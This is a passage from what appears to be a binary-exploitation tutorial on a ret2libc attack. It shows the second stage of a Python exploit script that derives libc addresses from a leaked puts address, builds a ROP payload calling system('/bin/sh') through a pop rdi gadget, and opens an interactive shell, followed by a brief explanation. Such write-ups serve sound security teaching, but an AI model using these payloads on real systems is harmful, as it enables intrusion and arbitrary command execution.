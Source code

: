 # Calculate real addresses
libc_base_addr = leaked_puts - puts_offset
libc_system = libc_base_addr + system_offset
libc_sh = libc_base_addr + sh_offset

log.info("Base address of libc: " + str(hex(libc_base_addr)))
log.info("Real address of system in libc: " + str(hex(libc_system)))
log.info("Real address of sh in libc: " + str(hex(libc_sh)))

# Stage-2 Payload
buf = ""
buf += "A" * 40
buf += struct.pack("<Q", pop_rdi_ret)
buf += struct.pack("<Q", libc_sh)
buf += struct.pack("<Q", libc_system)

# Send Stage-2
#p.recvuntil("Enter your name:")
p.sendline(buf)
p.recv()

p.interactive()
{% endhighlight %}
<br>
So, when we execute the exploit, it first leaks the real address of puts from the GOT in stage 1 and then calculate the real address of system and "/bin/sh". Finally it calls the system function with "/bin/sh" as the argument to it using the same `pop rdi; ret` gadget.
<br>
<p align="center">
  	<img width="590" height="340" src="https://fir3wa1-k3r.github.io/imgs/pwn_22.png">
</p>
<br>
